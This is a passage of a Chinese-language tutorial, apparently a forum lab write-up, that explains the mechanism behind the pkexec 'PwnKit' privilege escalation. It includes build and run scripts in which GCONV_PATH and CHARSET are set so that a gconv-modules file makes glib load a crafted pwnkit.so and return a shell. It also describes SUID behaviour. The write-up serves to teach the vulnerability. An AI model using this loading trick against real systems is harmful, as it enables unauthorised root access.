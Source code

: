 ```
all:
        echo "module UTF-8// AAAA// pwnkit 1" > gconv-modules
        gcc --shared -fPIC -o pwnkit.so pwnkit.c
        gcc -o test main.c -lglib-2.0

```

run.sh

```
#!/bin/bash
 
export CHARSET=AAAA
export GCONV_PATH=.
 
./test

```

g_printerr 的功能和 printf 很像，主要就是打印文本。在本实验中，当环境变量设置了 CHARSET，且不为 UTF-8 时，g_printerr 会进行编码转换，而转换的方法就是根据 GCONV_PATH 里的配置文件 gconv-modules 的说明，调用 pwnkit.so，从而得到 shell。  
![](https://bbs.pediy.com/upload/attach/202202/598931_Y5FMPWXWCE2HV2H.png)

SUID 权限
-------

当一个程序被设置了 SUID 权限，则其他用户执行该程序时，可以临时切换到程序所有者的权限去执行一些功能。因为涉及到权限变更，所以在执行操作系统自带的此类程序时，往往被要求授权。  
pkexec 的所有者为 root，具有 SUID 权限，当普通用户 kali 执行 “pkexec bash” 命令时会被要求授权。获得授权后，得到了 root 权限。  
![](https://bbs.pediy.com/upload/attach/202202/598931_ZU7UNY56NAWDQ39.png)  
![](https://bbs.pediy.com/upload/attach/202202/598931_VKHBVTP36M7NM7S.png)

[](#执行具有suid权限的程序时，不安全的环境变量不会被引入)执行具有 SUID 权限的程序时，不安全的环境变量不会被引入
---------------------------------------------------------------

打印所有环境变量  
main.c

```
int main()
{
    system("env");
    return 0;
}

```

使用 root 用户进行编译，并设置 SUID 权限

```
gcc -g -O0 -o test main.c
chmod 4755 ./test

```
